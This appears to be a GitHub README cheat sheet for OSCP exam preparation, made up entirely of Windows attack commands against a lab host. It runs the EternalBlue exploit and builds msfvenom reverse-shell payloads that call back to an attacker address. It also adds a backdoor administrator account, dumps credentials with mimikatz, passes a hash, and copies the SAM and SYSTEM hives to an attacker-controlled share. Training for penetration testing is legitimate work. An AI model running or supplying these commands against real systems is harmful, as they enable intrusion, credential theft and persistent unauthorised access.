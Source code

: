 # OSCP Cheat Sheets Windows
Preparation for OSCP

## RECON

#### SMB
```Shell
nmap -Pn -sT -n --script smb-enum-shares.nse  10.10.10.40 -p 135,139,445
```
```Shell
smbclient -L 10.10.10.40 -N 
smbclient //10.10.10.40/Users -N
```
```Shell
smbmap -H 10.10.10.40 -u ''
```
```Shell
mkdir smbFolder
mount -t cifs //10.10.10.40/Users /tmp/smbFolder -o username=null,password=null,domain=WORKGROUP,rw
```
```Shell
smbcacls //10.10.10.40/Users Admin/Desktop -N
smbcacls //10.10.10.40/Users Admin/Desktop -N | grep Everyone
```

## Vulnerability Discovery

```Shell
nmap -Pn -sT -n --script "vuln and safe" 10.10.10.40 -p 135,139,445
```

```Shell
searchsploit eternalblue
searchsploit -x 42315
searchsploit -m 42315
```

## Explotation

#### Eternalblue
```Shell
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py
python 42315.py 10.10.10.40
```

```Shell
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o exploit.exe EXITFUNC=thread LHOST=10.10.14.28 LPORT=4444
python 42315.py 10.10.10.40 samr exploit.exe 
```

```Shell
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
python eternal_checker.py 10.10.10.40

./shell_prep.sh 
python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin 

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.28 LPORT=4444
python eternalblue_exploit7.py 10.10.10.40 sc_x64_msf.bin
```

## Post Explotation

#### Windows Users
```Shell
net users
net user admin admin /add
net localgroup administrators
net localgroup administrators admin /add
net localgroup "Remote Desktop Users" admin /add
```

#### Crackmapexec
```Shell
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin'
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' -x 'whoami'
```
```Shell
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' --sam
crackmapexec smb 10.10.10.40 -u 'Administrator' -H cdf51b162460b7d5bc898f493751a0cc -x 'whoami'
```
```Shell
crackmapexec smb 10.10.10.40 -u 'Administrator' -H cdf51b162460b7d5bc898f493751a0cc -M mimikatz -o COMMAND="privilege::debug token::elevate sekurlsa::logonpasswords exit"
```

#### Pass the hash
```Shell
pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc //10.10.10.40 cmd.exe
cat /root/.cme/logs/Mimikatz-10.10.10.40-2021-04-28_212350.log
```

#### Windows SAM
```Shell
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup

impacket-smbserver smbfolder $(pwd)
copy sam.backup \\10.10.14.28\smbfolder\sam
copy system.backup \\10.10.14.28\smbfolder\system

pwdump system sam 
```

#### Windows psexec
```Shell
python /opt/impacket/examples/psexec.py WORKGROUP/admin:admin\@10.10.10.40
```
